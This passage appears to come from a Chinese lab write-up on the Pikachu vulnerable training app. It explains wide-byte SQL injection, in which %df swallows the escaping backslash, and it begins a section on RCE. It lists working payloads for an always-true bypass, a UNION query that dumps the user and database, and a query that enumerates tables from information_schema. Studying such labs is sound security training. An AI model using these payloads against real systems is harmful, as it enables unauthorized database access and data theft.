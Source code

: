 **漏洞利用**

id 的参数传入代码层，就会在 `’` 前加一个 `\`，由于采用的 URL 编码，所以产生的效果是
`%df%5c%27`

关键就在这，`%df` 会吃掉 `%5c`，形成一个新的字节,举个例子就是 `%d5` 遇到 `%5c` 会把 `%5c` 吃掉，形成 `%d5%5c` ，这个编码经过代码解码后会形成一个汉字 `"誠"`

因为 `%df` 的关系，`\` 的编码 `%5c` 被吃掉了，也就失去了转义的效果，直接被带入到 mysql 中，然后 mysql 在解读时无视了 `%a0%5c` 形成的新字节，那么单引号便重新发挥了效果

![image](../../../img/渗透/实验/pikachu/57.png) 这作者写提示就 TM 玩似的，太不友好了

- 测试payload: `lili%df' or 1=1 #`
- 测试payload: `lili%df%27%20or%201=1%23`

- 爆库payload: `lili%df' union select user(),database() #`

- 爆表payload: `lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![image](../../../img/渗透/实验/pikachu/58.png)

- 后面略

---

## RCE

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
